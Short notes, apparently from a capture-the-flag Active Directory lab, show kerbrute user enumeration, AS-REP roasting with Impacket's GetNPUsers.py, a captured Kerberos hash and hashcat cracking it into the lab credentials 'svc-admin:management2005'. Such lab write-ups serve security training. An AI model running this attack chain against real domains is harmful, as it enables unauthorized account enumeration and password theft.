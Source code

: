 ### kerbrute

good practice to set victim IP to a domain name in `/etc/hosts`

user enumeration

```
kerbrute userenum --dc spookysec.local -d spookysec.local 'userlist.txt' -t 100
```

---

### getNPusers.py
```
python3 /tmp/impacket/examples/GetNPUsers.py -dc-ip spookysec.local thm-ad/  -usersfile u2.txt 
```

we obtain this kerberos hash:

```
$krb5asrep$23$svc-admin@THM-AD:640b2ef8c30934a79586ffcb60934d54$df250ebd2428bb747ecab7428f529ea5257071f3468336df751f3bfa3717bc5c050c09164303da9a373b28cded6abc4e6ffe583f7e9908d848332896244572715bf4818da2efb07ee17c172d140f224d44eac2d4583bb948cbecdf5ded077e7e5291e7f6e82b2079dd2df785ceb2c2a7fdc8c9b370741f07d84ff684d0f3639055a45bd414074a51f693f0f104ba6cbc865f574f9955aea1a5a1773defa9d88642ed16e520808c7cd3dd040c973f746c2f6a5281c575423283a7ab4eb941eba210eda1e6a06c952a8509105ee73d3ca2ece40912ab4191eeb1b91e8fb847b64465236e43e056db6e86
```

---

### hashcat
```
hashcat -a 0 -m 18200 crack.txt /usr/share/wordlists/rockyou.txt
```

reveals the creds:
```
svc-admin:management2005
```


